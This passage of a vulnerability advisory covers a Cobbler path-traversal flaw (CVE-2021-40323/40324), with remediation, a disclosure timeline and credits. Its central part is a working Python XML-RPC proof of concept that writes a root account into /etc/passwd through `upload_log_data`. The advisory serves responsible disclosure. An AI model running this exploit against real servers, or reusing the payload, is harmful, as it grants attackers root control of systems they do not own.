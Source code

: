 The `__upload_file` function sanitize the `file` parameter (replace `/` and restrict `..`). However the `sys_name` user-supplied parameter is not checked.

Even if `sys_name` is invalid, the log file is still saved.

```python
import xmlrpc.client
import traceback
import base64

def try_connect(url):
    try:
        xmlrpc_server = xmlrpc.client.ServerProxy(url)
        return xmlrpc_server
    except:
        traceback.print_exc()
        return None

if __name__ == '__main__':
    api = try_connect("http://[cobbler_server]/cobbler_api")
    exploit = b"cha:!:0:0:cha:/:/bin/bash\n"
    print(api.upload_log_data("../../../../../../etc", "passwd", len(exploit), 100000, base64.b64encode(exploit)))
```

Using this exploit, we can manipulate any file on the system as root.

> Due to a change in the Python XMLRPC API, this PoC may not work against servers using a recent Python version (Binary type used instead of bytes).

## Remediation

Update to Cobbler 3.2.2 / 3.3.0.

- Release notes: https://cobbler.github.io/blog/2021/09/21/cobbler_3.3.0_released.html
- Merge request: https://github.com/cobbler/cobbler/pull/2794
- Issue: https://github.com/cobbler/cobbler/issues/2795

> We would like to thank SUSE LLC for quickly and seriously handling this vulnerability.

## Timeline (dd/mm/yyyy)

- 13/08/2021: Initial contact with the Cobbler project maintainer
- 18/08/2021: Vulnerability confirmed by SUSE Security Team
- 23/08/2021: Patch provided by the SUSE Security Team
- 30/08/2021: Regression with the patch
- 03/09/2021: CVE-2021-40323 / CVE-2021-40324 assigned by SUSE
- 20/09/2021: Public disclosure by the Cobbler project (https://github.com/cobbler/cobbler/issues/2795)
- 21/09/2021: Cobbler 3.3.0 released (https://github.com/cobbler/cobbler/releases/tag/v3.3.0)
- 21/09/2021: Public disclosure by TNP IT Security


## Credits

- Nicolas Chatelain, TNP IT Security: nicolas.chatelain -at- tnpconsultants.com
